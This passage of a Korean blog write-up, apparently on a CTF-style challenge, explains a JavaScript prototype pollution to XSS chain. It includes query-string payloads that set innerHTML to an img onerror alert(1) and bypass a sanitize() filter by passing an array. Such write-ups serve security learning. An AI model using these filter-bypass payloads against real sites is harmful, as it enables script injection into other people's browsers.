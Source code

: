 ```jsx
      target[key] = sanitize(source[key])
    } else {
      merge(target[key], source[key])
    }
  }
}
function sanitize(data) {
  if (typeof data !== 'string') return data
  return data.replace(/[<>%&\$\s\\]/g, '_').replace(/script/gi, '_')
}
```

- 방법은 아래와 같이 `root.innerHTML`에 값을 넣어주면 된다 (주의! : `=`을 `%3D`로 표현해야한다!)
    - `?config[window-toolbar][constructor][prototype][1]=8080&settings[root][innerHTML]=<img%20src%3Dx%20onerror%3Dalert(1)>`
        
        ![Untitled](/assets/img/20221225//Untitled%2012.png)
        
- 그러나 `sanitize()`함수로 인해 `<`, `>`, `%20`, 등이 필터링 당한다. 그러나 봐야할 것이 isPrimitive()함수에서 값의 type이 string, boolean, number, null, undefined 일때만 필터링하고 있어, 만약 Array타입이면 필터링이 없을 것이다.
    - `?config[window-toolbar][constructor][prototype][1]=8080&settings[root][innerHTML][]=<img%20src%3Dx%20onerror%3Dalert(1)>`
        
        ![Untitled](/assets/img/20221225//Untitled%2013.png)
        

### 참고

- [https://www.hahwul.com/cullinan/prototype-pollution/](https://www.hahwul.com/cullinan/prototype-pollution/)
- [https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf)
- [https://developer.mozilla.org/en-US/docs/Web/JavaScript/Inheritance_and_the_prototype_chain](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Inheritance_and_the_prototype_chain)
- [https://medium.com/@bluesh55/javascript-prototype-이해하기-f8e67c286b67](https://medium.com/@bluesh55/javascript-prototype-%EC%9D%B4%ED%95%B4%ED%95%98%EA%B8%B0-f8e67c286b67)
- [https://www.nextree.co.kr/p7323/](https://www.nextree.co.kr/p7323/)
- [https://developer.mozilla.org/ko/docs/Learn/JavaScript/Objects/Object_prototypes](https://developer.mozilla.org/ko/docs/Learn/JavaScript/Objects/Object_prototypes)
- [https://medium.com/@limsungmook/자바스크립트는-왜-프로토타입을-선택했을까-997f985adb42](https://medium.com/@limsungmook/%EC%9E%90%EB%B0%94%EC%8A%A4%ED%81%AC%EB%A6%BD%ED%8A%B8%EB%8A%94-%EC%99%9C-%ED%94%84%EB%A1%9C%ED%86%A0%ED%83%80%EC%9E%85%EC%9D%84-%EC%84%A0%ED%83%9D%ED%96%88%EC%9D%84%EA%B9%8C-997f985adb42)
- [https://javascript.plainenglish.io/proto-vs-prototype-in-js-140b9b9c8cd5](https://javascript.plainenglish.io/proto-vs-prototype-in-js-140b9b9c8cd5)
- [https://seoramyeon.tistory.com/21](https://seoramyeon.tistory.com/21)